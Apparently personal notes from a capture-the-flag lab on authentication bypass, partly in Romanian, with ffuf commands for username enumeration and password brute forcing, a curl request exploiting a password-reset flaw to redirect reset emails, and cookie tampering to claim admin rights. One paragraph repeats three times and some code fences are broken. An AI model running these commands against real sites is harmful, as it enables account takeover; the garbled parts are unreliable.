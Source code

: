 <h2>Username Enumeration</h2>
````
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt 
-X POST (request method)
-d "username=FUZZ&email=x&password=x&cpassword=x" (data we are going to send)
-H "Content-Type: application/x-www-form-urlencoded" (adding additional headers)
-u http://10.10.215.208/customers/signup (URL)
-mr "username already exists" (text on page to see if we've found a valid username)
````
<h2>Brute Force</h2>
````
ffuf 
-w valid_usernames.txt:W1, (valid username list)
	/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2  (password list)
-X POST (request method)
-d "username=W1&password=W2" (data we're going to send)
-H "Content-Type: application/x-www-form-urlencoded" (additional headers)
-u http://10.10.215.208/customers/login (URL)
-fc 200 (check for HTTP code other than 200)
````

<h2>Logic Flaws</h2>
Orice aplicatie poate avea greseli in cum e scrisa prin care codul php interactioneaza direct cu datele trimise de noi prin POST. Poti testa fiecare field(username, parola, email, etc.) pana cand gasesti unul exploitabil.
De exemplu, daca un site are in url `?email=x@gmail.com` la un forgot password request unde cere si un username, atunci poti sa trimiti in request emailul tau sa fie folosit ca recipient al mesajului de schimbare a adresei.

De exemplu, daca un site are in url `?email=x@gmail.com` la un forgot password request unde cere si un username, atunci poti sa trimiti in request emailul tau sa fie folosit ca recipient al mesajului de schimbare a adresei.

De exemplu, daca un site are in url `?email=x@gmail.com` la un forgot password request unde cere si un username, atunci poti sa trimiti in request emailul tau sa fie folosit ca recipient al mesajului de schimbare a adresei.
```
curl 'http://10.10.215.208/customers/reset?email=robert@acmeitsupport.thm' (pagina cu emailul victimei)
-H 'Content-Type: application/x-www-form-urlencoded' 
-d 'username=robert&email={username}@customer.acmeitsupport.thm' (emailul tau)
`````
``
<h2>Cookie Tampering</h2>
Uneori, daca cookieurile sunt in plaintext si este evident ce fac, se pot face cereri la pagina schimbad cookieurile direct in head.
```
curl 
-H "Cookie: logged_in=true; admin=true" 
http://10.10.215.208/cookie-test
```

Daca cookieurile sunt hashate sau codate, poti sa incerci sa le crackezi.